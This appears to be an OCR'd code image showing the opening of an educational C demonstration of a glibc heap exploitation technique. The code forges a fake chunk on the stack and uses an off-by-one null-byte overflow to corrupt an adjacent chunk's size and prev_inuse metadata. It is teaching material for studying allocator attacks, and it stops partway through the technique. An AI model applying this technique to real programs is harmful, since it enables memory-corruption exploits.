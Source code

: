 ```cpp
	printf("Tested in Ubuntu 16.04 64bit.\n");
	printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* d;

	printf("\nWe allocate 0x38 bytes for 'a'\n");
	a = (uint8_t*) malloc(0x38);
	printf("a: %p\n", a);
    
    int real_a_size = malloc_usable_size(a);
    printf("Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);

    // create a fake chunk
    printf("\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
    printf("However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
    printf("(although we could do the unsafe unlink technique here in some scenarios)\n");

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
    
    printf("Our fake chunk at %p looks like:\n", fake_chunk);
    printf("prev_size (not used): %#lx\n", fake_chunk[0]);
    printf("size: %#lx\n", fake_chunk[1]);
    printf("fwd: %#lx\n", fake_chunk[2]);
    printf("bck: %#lx\n", fake_chunk[3]);
    printf("fwd_nextsize: %#lx\n", fake_chunk[4]);
    printf("bck_nextsize: %#lx\n", fake_chunk[5]);

	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

	printf("\nWe allocate 0xf8 bytes for 'b'.\n");
	printf("b: %p\n", b);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    /* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/

	printf("\nb.size: %#lx\n", *b_size_ptr);
	printf("b.size is: (0x100) | prev_inuse = 0x101\n");
	printf("We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; 
	printf("b.size: %#lx\n", *b_size_ptr);
```